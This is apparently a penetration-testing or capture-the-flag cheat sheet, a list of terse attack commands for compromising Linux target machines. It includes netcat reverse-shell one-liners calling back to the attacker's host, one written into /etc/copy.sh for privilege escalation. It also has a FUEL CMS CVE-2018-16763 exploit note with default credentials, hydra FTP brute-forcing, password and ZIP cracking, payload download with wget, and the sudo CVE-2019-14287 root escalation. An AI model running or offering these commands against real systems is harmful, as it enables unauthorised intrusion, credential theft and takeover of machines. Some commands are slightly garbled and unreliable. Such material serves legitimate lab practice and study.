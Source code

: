 ### nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 


## Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt


## dirbuster scan
sudo dirb http://TARGET_IP/ -R 

# Cat all find read
cat *


# import TARGET_IP
$IP


# To Check Sudo Permissions
sudo -l
sudo su
su root

# curl command to change alphabets [agent-user] in web
sudo curl -A "CHANGE_LETTER" -L TARGET_IP


# prev esc linux bash shell
sudo bash

# download file from SSH TARGET MACHINE
scp USERNAME@TARGET_IP_ADDRS:FILENAME


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl

# FTP Usage
ftp TARGET_IP


# python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'


# FUEL CMS Exploit 1.4.1 CVE-2018-16763
run command with ""
example:
CMD: "ls -la"
default cred: admin: admin


# FUEL CMS Database login info
fuel/application/config
cat database.php


# netcat revershell
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"


# hydra command to brute-force FTP with username
sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp


# run python http server
sudo python -m SimpleHTTPServer 80


# wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/

sudo wget http://YOUR_IP_ADDRS:8080/FILENAME


# john cracking the password
sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt

# john ZIP file cracking
sudo zip2john FILENAME.zip > OUTFILENAME

# fcrackzip command
fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt

# 7zip
7z e ZIP_FILENAME  

# steghide command
steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]

# CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

# sudo 1.8.21 exploit CVE-2019-14287
sudo -u#-1 /bin/bash [spawn as root] 
